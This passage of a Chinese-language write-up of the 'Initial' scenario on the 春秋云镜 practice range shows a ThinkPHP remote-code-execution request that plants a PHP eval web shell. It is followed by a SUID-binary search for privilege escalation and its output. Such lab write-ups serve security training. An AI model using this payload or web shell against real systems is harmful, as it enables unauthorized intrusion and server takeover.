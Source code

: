 ![image-20230725165446828](img/春秋云镜-Initial/image-20230725165446828.png)

写马

```
http://39.99.147.177/index.php?s=captcha

POST：
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]= echo "<?php echo "123";@eval(\$_POST[1]);?>" > eek.php
```

连蚁剑

发现是www-data权限

## 内网提权

```
find / -perm -u=s -type f 2>/dev/null
```

查看，找利用点

```
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/su
/usr/bin/at
/usr/bin/chsh
/usr/bin/stapbpf
/usr/bin/staprun
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/mount
```